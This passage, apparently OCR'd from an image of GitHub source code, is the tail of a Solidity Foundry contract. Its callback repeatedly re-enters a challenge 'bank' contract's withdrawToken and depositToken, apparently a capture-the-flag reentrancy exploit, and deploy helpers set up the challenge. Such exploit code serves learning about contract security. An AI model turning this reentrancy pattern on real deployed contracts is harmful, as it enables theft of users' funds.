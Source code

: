 ```solidity
            count01++;
            bank.withdrawToken(0, address(this), 0);
            return 0;
       }else if(count01 == 2){
            count01++;
            bank.depositToken(0, address(this), 0);
            return 0;
       }else if(count01 == 3){
            count01++;
            bank.withdrawToken(0, address(this), 0);
            return 0;
       }else{
            return 0;
       }
        
    }

    function deployHelper_weth(string memory what) public returns (address addr) {
        bytes memory bytecode = vm.getCode(what);
        assembly {
            addr := create(0, add(bytecode, 0x20), mload(bytecode))
        }
    }
    function deployHelper_Setup(address _addr) public payable returns (address addr) {
        bytes memory bytecode = BYTECODE;
        // 构造器有参数
        bytes memory bytecode_withConstructor = abi.encodePacked(bytecode,abi.encode(address(_addr)));
        assembly {
            addr := create(50000000000000000000, add(bytecode_withConstructor, 0x20), mload(bytecode_withConstructor))
        }
    }

}
```

